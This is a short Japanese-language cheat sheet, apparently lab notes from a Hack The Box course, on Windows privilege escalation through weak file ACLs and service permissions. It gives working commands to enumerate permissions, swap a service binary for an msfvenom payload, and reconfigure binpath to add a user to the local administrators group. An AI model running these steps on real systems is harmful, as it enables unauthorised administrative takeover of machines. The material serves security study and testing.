 # Permissive File System ACLs

## SharpUp

GhostPack ツール スイートの [SharpUp](https://github.com/GhostPack/SharpUp/tree/master) を使用して、弱い ACL に問題のあるサービス バイナリをチェックできる

```
.\SharpUp.exe audit
```

## icacls を使用した権限の確認

```
icacls "<SharpUpで検出されたバイナリのPath>"
```

## 悪意のあるバイナリに置き換え

msfvenom で生成された悪意のあるバイナリと置き換えることができる。これにより、SYSTEM としてリバース シェルを提供したり、ローカル管理者ユーザーを追加してマシンに対する完全な管理制御を提供する

```
cmd /c copy /Y evil.exe "<SharpUpで検出されたバイナリのPath>"
sc start <SharpUpで検出されたバイナリ>
```

# Weak Service Permissions

## Checking Permissions with AccessChk

Sysinternals スイートの [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) を使用して、サービスに対するアクセス許可を列挙する

```
accesschk.exe /accepteula -quvcw WindscribeService
```

## 悪意のあるバイナリに置き換え

権限を使用してバイナリ パスを悪意を持って変更する可能性がある。ユーザーをローカル管理者グループに追加するように変更してみる。選択したコマンドまたは実行可能ファイル (リバース シェル バイナリなど) を実行するためのバイナリ パスを設定できます。 `binpathをmsfvenomなどのバイナリに置き換えることでリバースシェルを実行できる`

```
sc config <SharpUpで検出されたバイナリ> binpath="cmd /c net localgroup administrators htb-student /add"
```

## サービスを再起動

サービスを再起動する事で置き換えたリバースシェルなどが実行される

```
sc stop <SharpUpで検出されたバイナリ>
sc start <SharpUpで検出されたバイナリ>
```















